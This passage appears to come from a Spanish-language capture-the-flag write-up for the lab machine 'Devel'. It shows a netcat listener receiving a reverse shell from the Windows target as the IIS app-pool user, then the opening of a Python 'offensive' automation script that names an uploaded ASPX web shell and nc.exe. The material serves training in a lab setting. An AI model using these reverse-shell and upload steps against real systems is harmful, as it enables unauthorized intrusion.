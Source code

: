 ```ruby
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.168] from (UNKNOWN) [10.10.10.5] 50450
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

whoami
whoami
iis apppool\web
```
![](../assets/images/Devel/ipconf2.png)

- Vamos a crearnos ahora un script de python para hacer la introducción de manera mas ágil y con eso practicamos Python ofensivo. 

```python
#!/usr/bin/python3

from pwn import *
from ftplib import FTP
import requests, re , pdb, time, threading
import signal
import sys

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)


malicious_files = ["console.aspx","nc.exe"]

#Variables Globales
console_url = "http://10.10.10.5/%s" % malicious_files[0] 
lport = 443
```